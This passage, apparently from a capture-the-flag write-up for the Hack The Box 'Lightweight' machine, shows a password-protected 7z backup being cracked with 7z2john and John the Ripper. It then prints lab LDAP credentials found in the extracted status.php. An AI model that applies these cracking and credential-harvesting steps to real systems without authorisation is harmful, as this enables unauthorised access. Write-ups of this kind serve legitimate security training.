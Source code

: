 Since this backup file is password protected, we have to crack the password.
{% highlight shell %}
root@kali:~# 7z x backup.7z

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz (806EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 3411 bytes (4 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 3411
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1


Enter password (will not be echoed):
{% endhighlight %}

We can take dvantage of "7z2john.pl" installed on kali linux by default.
{% highlight shell %}
# install necessary module
root@kali:~# sudo apt-get install libcompress-raw-lzma-perl

# create hash for backup.7z
root@kali:/usr/share/john# ./7z2john.pl /root/backup.7z > /root/backup.7z.hash

# crack the hash with john the ripper
root@kali:~# john backup.7z.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
delete           (backup.7z)
1g 0:00:00:27 DONE (2019-05-17 21:52) 0.03595g/s 75.94p/s 75.94c/s 75.94C/s slimshady..morado
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

With this password "delete", we can extract the data from backup.z7.<br>
We can achieve some php files and we can find a credential in status.php.
{% highlight shell %}
root@kali:~# cat status.php 

~~~

<?php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
$ldapconfig['host'] = 'lightweight.htb';
$ldapconfig['port'] = '389';
$ldapconfig['basedn'] = 'dc=lightweight,dc=htb';
//$ldapconfig['usersdn'] = 'cn=users';
$ds=ldap_connect($ldapconfig['host'], $ldapconfig['port']);
~~~